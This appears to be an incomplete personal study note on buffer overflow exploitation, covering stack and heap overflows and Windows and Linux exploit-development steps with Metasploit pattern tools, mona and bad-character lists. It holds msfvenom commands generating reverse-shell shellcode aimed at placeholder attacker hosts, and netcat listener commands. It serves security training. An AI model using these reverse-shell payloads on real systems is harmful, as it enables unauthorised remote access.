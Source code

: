 # buffer overflow

![Image result for buffer overflow](https://dpsvdv74uwwos.cloudfront.net/statics/img/ogimage/buffer-overflow-attacks.png)

[TOC]



## types

### stack based

A technically inclined user may exploit stack-based buffer overflows to manipulate the program to their advantage in one of several ways:

- By overwriting a local variable that is located near the vulnerable buffer on the stack, in order to change the behavior of the program
- By overwriting the return address in a [stack frame](https://en.wikipedia.org/wiki/Stack_frame). Once the function returns, execution will resume at the return address as specified by the attacker - usually a user-input filled buffer
- By overwriting a function pointer[[1\]](https://en.wikipedia.org/wiki/Buffer_overflow#cite_note-1) or [exception handler](https://en.wikipedia.org/wiki/Exception_handler), which is subsequently executed
- By overwriting a local variable (or pointer) of a different stack frame, which will be used by the function which owns that frame later  

![Image result for stack based  buffer overflow](https://payatu.com/wp-content/uploads/2018/01/c_prog_mem_layout.jpg)

### heap based

A buffer overflow occurring in the heap data area is referred to as a heap overflow and is exploitable in a manner different from that of stack-based overflows. Memory on the heap is dynamically allocated by the application at run-time and typically contains program data. Exploitation is performed by corrupting this data in specific ways to cause the application to overwrite internal structures such as linked list pointers. The canonical heap overflow technique overwrites dynamic memory allocation linkage (such as [malloc](https://en.wikipedia.org/wiki/Malloc) meta data) and uses the resulting pointer exchange to overwrite a program function pointer



<img src="https://www.researchgate.net/profile/Roshan_Ragel/publication/230559751/figure/fig6/AS:669389712027653@1536606352473/Heap-based-Buffer-Overflow-Attack.png" alt="Image result for heap based buffer overflow" style="zoom:50%;" />

## exploitation

### windows buffer overflow

#### discovering vulnerablity 

we discover a application is vulnerable to buffer overflow  by fuzzing the application with a fuzzer

### introduction to immunity debuuger

#### adding the application to  imunnity debugger

####  

#### fuzzing the application 

a fuzzer  fuzzes the application with in an random incremental order such that the application stops when it detects a crash or timeout from the application we interact

#### replicating the crash 

we replicate crash by sending the appliation with value at which it crashed 

#### controlling the EIP

##### locating eip  by creating unique pattern

```
msf-pattern_create -h
msf-pattern_create -l length of buffer

```



##### locating the offset address of eip

```
msf-pattern_offset -h
msf-pattern_offset -l lengthofbuffer -q stringfromeip
```



#### locating space for shell code

##### checking for bad charcters

```
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

![](download.png)

##### redirecting the execution flow

##### finding the return address

 ##### introduction to mona

```
!mona
```



##### identifying the module with out aslr,dep,seh

##### nasm shell

```
msf-nasm_shell

nasm>jmp esp

!mona 
!mona modules 
!mona find -s "instruction " -m "module to search"

```



#### genrating shellcode

```
msfvenom -p windows/shell_reverse_tcp lhost=attackerip lport=attackerport -f fileformat -e x86/shikata_ga_nai -b "badcharcters"
```



#### optimising the shellcode



#### getting  reverse shell

```
nc -nlvp port to connect
```



#### improving the exploit







### linux buffer overflow

#### discovering the vulnerablity

### replicating the crash

### introduction to the edb(evans debugger)

```
edb
```



##### adding the applcation to the edb

```

```



### controlling the EIP

#### locating the eip using unique pattern 

```
msf-pattern_create -l string
```



#### locating the offset using the unique pattern

```
msf-pattern_offset -q string
```



### locating Space for shell code



#### geting opcodes

```
msf-nasm_shell
nasm>
nasmm>
```



### checking for bad charcters

```
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

![](C:\Users\bhuva\Downloads\download.png)

### finding a return address

```

```



### genrating shellcode

```
msfvenom -p linux/x86/shell_reverse_tcp lhost=ip of attacker lport=port to connect -b "badcharcters here" -f fileformat -o outputname
```



### modfying shellcode

```
msfvenom -p linux/x86/shell_reverse_tcp lhost=ip of attacker lport=port to connect -b "badcharcters here" -f fileformat -v shellcode
```



### getting shell

```
nc -nlvp port 
```





